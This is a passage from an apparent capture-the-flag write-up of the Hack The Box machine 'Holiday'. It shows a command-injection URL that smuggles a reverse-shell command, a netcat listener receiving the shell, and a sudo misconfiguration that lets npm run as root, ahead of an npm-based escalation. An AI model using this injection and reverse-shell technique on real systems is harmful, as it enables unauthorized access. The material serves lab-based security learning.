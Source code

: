 I can also see it on Holiday using `ls`:

![1567849619632](https://0xdfimages.gitlab.io/img/1567849619632.png)

Now i’ll run it by visiting `/admin/export?table=b%26bash+rev`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:54220.
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
algernon@holiday:~/app$ id
uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)

```

And that’s enough to find `user.txt` one directory up:

```

algernon@holiday:~$ cat user.txt 
5edc176c...

```

## Shell as root

### Enumeration

Enumeration is often short when I find something interesting in the first place I check, `sudo -l`:

```

algernon@holiday:~$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *

```

This user can run `npm` as root without a password.

### NodeJS npm

Some googling led me to [this post](https://github.com/joaojeronimo/rimrafall) about how npm can be dangerous. The idea is that a NodeJS package is defined in a file, `package.json`. The example from this repository looks like:
